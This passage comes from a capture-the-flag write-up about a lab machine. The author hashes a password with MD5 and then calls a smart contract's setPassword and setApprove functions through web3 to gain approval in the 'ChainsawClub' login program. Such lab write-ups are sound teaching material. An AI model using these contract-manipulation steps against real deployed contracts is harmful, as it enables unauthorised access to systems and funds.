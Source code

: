 The password field looks like an MD5 hash. I’ll try hashing my password:

```

root@kali# echo -n 0xdf | md5sum
465e929fc1e0853025faad58fc8cb47d  -

```

And submitting that:

```

>>> contract.functions.setPassword('465e929fc1e0853025faad58fc8cb47d').transact()
HexBytes('0x3a00d64de726e98832c988246ffa9725e8048ea855d2ace33be372808a784caf')

```

Now when I try to log in, I get a different error:

```

bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 

      _           _
     | |         (_)
  ___| |__   __ _ _ _ __  ___  __ ___      __
 / __| '_ \ / _` | | '_ \/ __|/ _` \ \ /\ / /
| (__| | | | (_| | | | | \__ \ (_| |\ V  V /
 \___|_| |_|\__,_|_|_| |_|___/\__,_| \_/\_/
                                            club
- Total supply: 1000
- 1 CHC = 51.08 EUR
- Market cap: 51080 (€)

[*] Please sign up first and then log in!
[*] Entry based on merit.

Username: 0xdf
Password: 
[*] User is not approved!

```

There are `getApprove` and `setApprove` functions in the `.sol` file. I’ll try `getApprove` (using `.call()` since it’s a get function):

```

>>> contract.functions.getApprove().call()
False

```

Now `setApprove`:

```

>>> contract.functions.setApprove(True).transact()
HexBytes('0x6072819f412e876bb445131cd60223619b084e28672d0a75dcadf419f94e1dad')

```
